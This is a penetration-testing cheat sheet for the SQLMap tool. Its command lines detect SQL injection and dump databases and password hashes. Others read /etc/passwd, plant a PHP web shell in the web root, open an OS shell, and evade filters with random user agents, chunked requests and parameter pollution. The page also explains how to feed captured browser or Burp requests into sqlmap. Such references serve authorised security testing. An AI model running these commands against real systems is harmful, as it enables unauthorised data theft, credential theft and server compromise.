


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# SQLMap

## Commands

### Detection



```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch -v 0
```




```bash
sqlmap -u "http://www.example.com/vuln.php"  --data "param=value" --batch -v 0
```




```bash
sqlmap -r request_burp.req --batch -v 0
```



```bash
sqlmap -r request_burp.req --batch -v 0 --level=5 --risk=3
```



### Data Exfil



```bash
sqlmap -r request_burp.req --banner --current-user --current-db --is-dba
```



```bash
sqlmap -r request_burp.req -D testdb --tables
```



```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump
```



```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump -C col1,col2
```




```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump -C --start=1 --stop=10
```




```bash
sqlmap -r request_burp.req --schema
```






```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump --where="col1 LIKE 'f%'" --batch -v 0
```




```bash
sqlmap -r request_burp.req -D testdb --batch -v 0
```




```bash
sqlmap -r request_burp.req --dump-all --exclude-sysdbs --batch -v
```




```bash
sqlmap -r request_burp.req --all --batch -v 0
```



### Advanced Data Exfil



```bash
sqlmap -r request_burp.req --search -T tableName --batch -v 0
```



```bash
sqlmap -r request_burp.req --search -C colName --batch -v 0
```



```bash
sqlmap -r request_burp.req --passwords --batch -v 0
```



### OS Exploitation



```bash
sqlmap -r request_burp.req --batch -v 0 --file-read "/etc/passwd"
```




```bash
sqlmap -r request_burp.req --batch -v 0 --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```




```bash
sqlmap -r request_burp.req --batch -v 0 --os-shell
```




DBAs needs certain privileges to be able to write files. Local access is also required such as write permissions in the directory we want to write to.


### Bypasses



```bash
sqlmap -r request_burp.req --batch -v 0 --randomize=rp 
```




```bash
sqlmap -r request_burp.req --batch -v 0 --eval="import hashlib; h=hashlib.md5(id).hexdigest()"
```





```bash
sqlmap -r request_burp.req --batch -v 0 --random-agent
```




```bash
sqlmap -r request_burp.req --batch -v 0 --chunked
```



```bash
sqlmap -r request_burp.req --batch -v 0 -hpp
```



## Usage

### cURL

Copy as `cURL` from browser's Network tab (Figure 1).

<figure><figcaption><p>Figure 1: Copying the cURL command via Mozilla's Network tab.</p></figcaption></figure>

Change `curl` to `sqlmap` (Figure 2). If a specific parameter needs to be tested, we can use the `*` as follows: `--data 'uid=1*&name=test'`.&#x20;

> _`--batch` go with the default answer when prompted, `-v 0` reduces the verbosity level._

<figure><figcaption><p>Figure 2: Changing cURL to sqlmap and we are good to go!</p></figcaption></figure>

### HTTP Requests

Capture the Request Headers via a brower or Burp (Figure 3).

> _From Mozilla `Copy Value` -> `Copy Request Headers` and then add the parameters via `Copy Value` -> `Copy POST Data`._

<figure><figcaption><p>Figure 3: Copying the POST request to a file with Burp Suite.</p></figcaption></figure>

Supply the file to SQLMap (Figure 4).

<figure><figcaption><p>Figure 4: Using SQLMap with a request file.</p></figcaption></figure>

## Resources










